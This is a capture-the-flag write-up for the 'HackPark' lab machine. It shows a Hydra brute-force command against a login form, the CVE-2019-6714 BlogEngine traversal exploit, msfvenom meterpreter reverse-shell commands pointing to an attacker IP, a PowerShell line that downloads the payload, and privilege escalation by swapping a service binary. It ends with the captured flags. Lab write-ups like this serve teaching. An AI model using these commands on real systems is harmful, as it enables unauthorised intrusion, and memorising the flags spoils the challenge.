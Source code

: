 > HackPark | Hydar | WinPEAS | RCE

# Nmap/Rustscan

nmap -sC -sV -A -Pn -vv $IP

```
80/tcp open  http    syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server? syn-ack
```

We got a website with login form and let's start with hydra to get creds. Let's try for `admin` account.

# Hydra

 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.37.72  http-post-form "/Account/login.aspx:__VIEWSTATE=ScTUsDEL61RxXQbUkxPIvjWwWIPtRoGua7VlvlhkXMv83IlH8nDZNBJap5qDDRHYpohgQkDHiy%2FBC%2BxgOpa%2BQyclcuurGR6oEQrtrgMMab51BRVITHbw51etTYHg%2BOSqlTEdhO1sq6LyFJ6OiiTP6d9DJf02wqbnAd2tPNuj2XvUivov&__EVENTVALIDATION=IwDYcG9QBNf8p2xPKx%2B%2Fw5JxMDpBvm8H7wN1ksA5dw9A8UBpnwOCo0Dw%2BPk5zNJmkB9lQ%2FliisMfMuMuK0XXTqgvEqLeivDFKIVc5TL58r9bwhfN6No%2FVNcCXAAYsaZZOdkMyqjZVNaOltsfMh1u4e0p9aFSTmWecZYwxusByDyG%2FSae&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -t 64

```
[80][http-post-form] host: 10.10.37.72   login: admin   password: 1qaz2wsx
```

And we are in! Looks like we are running `BlogEngine 3.3.6.0`. Let's search for exploits.

And we got an RCE exploit with directory traversal.`CVE-2019-6714`. 

# Steps to exploit

1. Access `http://10.10.10.10/admin/app/editor/editpost.cshtml` and upload the code of file named as `PostView.ascx`.
2. Now accessing `http://10.10.10.10/?theme=../../App_Data/files` we got the shell!

We are in as `iis apppool\blog`. but this shell is not good so let's get a stable shell.

# Payload

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.107.21 LPORT=4444 -f exe > shell.exe

# Metasploit

1. use exploit/multi/handler
2. set payload windows/meterpreter/reverse_tcp
3. set LPORT 4444
4. set LHOSt 10.8.107.21

**Note: In unstable shell `powershell Invoke-WebRequest -Uri http://10.8.107.21:8000/shell.exe -Outfile shell.exe` to get the file**

Let's save the output of `systeminfo` command to a txt file and run windows exploit suggester.

`/windows-exploit-suggester.py --database 2021-05-01-mssb.xls --systeminfo OS_details.txt`

And we got a bunch of exploits. But before that let's try winPEAS. 

# WinPEAS

We got some interesting stuff.

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
```

In the folder, we can find `LogFile.txt`

```
08/05/19 13:26:28,Starting System Scheduler SERVICE (SYSTEM)
08/05/19 14:03:43,Starting System Scheduler SERVICE (SYSTEM)
08/06/19 14:11:27,Starting System Scheduler SERVICE (SYSTEM)
08/06/19 14:16:26,Stopping System Scheduler SERVICE. (SYSTEM)
10/02/20 14:12:16,Starting System Scheduler SERVICE (SYSTEM)
10/02/20 14:30:29,Stopping System Scheduler SERVICE. (SYSTEM)
10/02/20 14:31:29,Starting System Scheduler SERVICE (SYSTEM)
10/02/20 14:48:55,Stopping System Scheduler SERVICE. (SYSTEM)
10/02/20 14:50:01,Starting System Scheduler SERVICE (SYSTEM)
10/02/20 15:03:23,Stopping System Scheduler SERVICE. (SYSTEM)
10/02/20 15:04:22,Starting System Scheduler SERVICE (SYSTEM)
10/02/20 15:05:49,Stopping System Scheduler SERVICE. (SYSTEM)
10/02/20 15:06:49,Starting System Scheduler SERVICE (SYSTEM)
10/02/20 15:10:59,Stopping System Scheduler SERVICE. (SYSTEM)
04/30/21 22:27:45,Starting System Scheduler SERVICE (SYSTEM)
```

Looking at the processes using ps we can find `Message.exe` and it keeps running and stopping repeatedly. 

Let's create a msfvenom payload and name it as `Message.exe`. Also let's rename the old `Message.exe`.
`ren Message.exe Message.exe.bak`
We can also share files using Impacket's SMBserver.py.

```
smbserver.py smbshare .
copy \\10.8.107.21\smbfolder\Message.exe
```

Now we got a shell as `HACKPARK\Administrator`.

# user.txt => C:\Users\jeff\Desktop

```
759bd8af507517bcfaede78a21a73e39
```

# root.txt

```
7e13d97f05f7ceb9881a3eb3d78d3e72
```

We can also exploit using Juicy Potato as suggested in Windows Exploit Suggester.